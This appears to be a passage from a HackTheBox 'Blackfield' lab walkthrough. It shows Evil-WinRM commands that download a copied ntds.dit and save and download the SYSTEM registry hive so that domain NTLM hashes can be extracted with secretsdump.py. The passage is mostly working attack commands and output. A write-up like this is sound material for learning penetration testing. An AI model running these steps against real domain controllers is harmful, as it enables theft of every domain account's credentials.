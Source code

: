```shell

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         10/5/2020  3:27 PM       18874368 ntds.dit

```
Great! we can now download the file to our machine:

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> download ntds.dit
Info: Downloading C:\Users\svc_backup\Documents\ntds.dit to ntds.dit


Info: Download successful!
```
#### SYSTEM.hive

To extract the NTLM hashes from `ntds.dit` file, we'll be needing SYSTEM.hive file which contains the System boot key essential to decrypt the NTDS.dit.

#### Grabbing SYSTEM:

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save HKLM\SYSTEM C:\Users\svc_backup\Documents\SYSTEM
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\Documents> ls


    Directory: C:\Users\svc_backup\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/5/2020   3:27 PM       18874368 ntds.dit
-a----        10/5/2020   2:56 PM       17661952 SYSTEM


*Evil-WinRM* PS C:\Users\svc_backup\Documents> download SYSTEM
Info: Downloading C:\Users\svc_backup\Documents\SYSTEM to SYSTEM


Info: Download successful!

cfx:  ~/Documents/htb/blackfield
→ file SYSTEM
SYSTEM: MS Windows registry file, NT/2000 or above
```
#### Extracting NTLM hashes

We got both the files required to extract NTLM hashes of Domain accounts using Impacket's `secretsdump.py`:
